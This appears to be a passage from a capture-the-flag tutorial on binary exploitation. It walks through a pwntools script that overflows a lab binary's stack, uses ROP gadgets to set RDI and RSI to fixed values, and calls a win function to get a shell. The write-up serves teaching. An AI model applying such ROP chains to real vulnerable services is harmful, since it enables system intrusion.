 Lets start writing the exploit script.
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./ret2shellcode')
libc = elf.libc
start()

### Exploit Goes here ###
offset = 0x68
pop_rdi_ret = 0x40129b
pop_rsi_pop_r15_ret = 0x401299

p.interactive()
p.close()
```
We need a payload which sets the register to desired value and calls _win_ afterwards.<br/>
First we need to fill the payload with junk bytes to get upto RIP.
```py
# Offset upto RIP
payload = b'A'*offset
```
To set RDI to 0xdeadbeef we will use `pop_rdi_ret` gadget. `p64` is a function in pwntools which returns byte representation of given integer for 64 bit architecture in little-endian format. For 32 bit, you have to use `p32`.
```py
# set RDI=0xdeadbeef
payload += p64(pop_rdi_ret)
payload += p64(0xdeadbeef)
```
To set RSI to 0xcafebabe we will use `pop_rsi_pop_r15_ret` gadget. As I said earlier, we don't care what R15 holds, we will use a junk value (NULL).
```py
# set RSI=0xcafebabe R15=0
payload += p64(pop_rsi_pop_r15_ret)
payload += p64(0xcafebabe)
payload += p64(0)
```
Now that we have set the registers properly, we need to call _win_ to get shell. I used pwntools' `ELF` class to get _win_'s address.
```py
# call win
payload += p64(elf.sym.win)
```
Now we need to send the payload to see the action. (sendline because gets requires a newline)
```py
p.sendline(payload)
```
and BOOM! you have got shell again.
